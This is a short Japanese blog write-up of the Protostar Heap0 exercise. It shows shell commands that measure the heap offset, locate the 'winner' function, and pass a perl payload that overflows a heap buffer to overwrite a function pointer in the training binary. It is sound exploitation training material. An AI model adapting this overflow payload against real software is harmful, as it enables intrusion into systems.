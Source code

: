 ```yaml
---
layout: post
redirect_from:
  - /blog/2016/01/22/exploit-exercises-protostar-heap0/
date: 2016-01-22T14:09:07+09:00
tags: [ "ctf", "writeup", "exploit-exercises", "heap", "heap-overflow", "buffer-overflow" ]
---
```


# Exploit Exercises Protostar Heap0

いきなり難しいのでなくて、ちゃんとこのレベルから用意されてあるのはよいと思う。

## [Protostar Heap0](https://exploit-exercises.com/protostar/heap0/)

`malloc`で返されるアドレス間の距離が実行ごとに変化することはない。

``` sh
$ ./heap0 '' ''
data is at 0x9afb008, fp is at 0x9afb050
level has not been passed

$ echo $[0x9afb050 - 0x9afb008]
72

$ readelf -s heap0 | grep '\<winner\>'
    55: 08048464    20 FUNC    GLOBAL DEFAULT   14 winner

$ ./heap0 $(perl -e 'print "A"x72, "\x64\x84\x04\x08"')
data is at 0x8522008, fp is at 0x8522050
level passed
```
